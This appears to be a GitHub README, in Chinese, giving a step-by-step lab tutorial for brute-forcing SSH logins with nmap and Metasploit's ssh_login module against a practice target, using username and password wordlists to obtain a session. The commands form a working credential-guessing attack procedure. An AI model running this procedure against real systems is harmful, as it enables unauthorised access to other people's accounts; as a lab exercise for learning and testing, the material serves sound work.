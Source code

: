 # Brute-Force SSH login
使用Metasploit暴力猜測ssh的登入帳密。

## **環境&工具**
* 一台Kali Linux
* 一台有ssh服務的靶機
* 一個字典檔

## **破解流程**
* step1：針對目標機器做掃描，掃描這台主機有開那些服務
  * 這邊使用nmap這套工具做掃描，檢測目標主機是否在線上、port開放的情況
  * nmap其他相關指令請參考https://zh.wikipedia.org/zh-tw/Nmap
    > ```shell
    > namp -sV xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/1.png)
* step2：開啟Metasploit
    > ```shell
    > msfconsole
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-1.png)
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-2.png)
* step3：開啟Metasploit這套工具尋找模組腳本
  * 這邊使用模組名稱是`auxiliary/scanner/ssh/ssh_login`
  
    > ```shell
    > search ssh_login
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3.png)
* step4：查看使用的模組腳本需要設定的參數
  * 這邊四個重要的參數必須設定，`目標主機IP`、`目標主機port號`、`使用者帳號`、`使用者密碼`
  
    > ```shell
    > option
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/4.png)
* step5：設定目標主機IP
    > ```shell
    > set rhost xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/5.png)  
* step6：目標主機port號
    > ```shell
    > set rport xx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/6.png)
* step7：設定使用者帳號密碼
  * 設定使用者帳號及使用者密碼的方式有三種，`利用username及password的字典檔`、`分別給username及password的字典檔`、`直接設定username及password`

  * 利用username及password的字典檔  
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/7.png)   
    > ```shell
    > set userpass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/8.png)    

  * 分別給username及password的字典檔 
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/9.png)   
    > ```shell
    > set user_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/10.png)   
    > ```shell
    > set pass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/11.png)     
  
  * 直接設定username及password  
    > ```shell
    > set username [名稱]
    > set password [密碼]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/12.png)   

  ```
  設定使用者帳號密碼，可使用字典檔也可自行輸入，可搭配自行輸入及字典檔的組合，更快速的找到登入的帳密。
  ```

* step8：執行暴力猜測ssh的登入帳密
    > ```shell
    > exploit
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/13.png)
  * 執行成功後會有一個session存在著
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/14.png)

## **References**
* https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
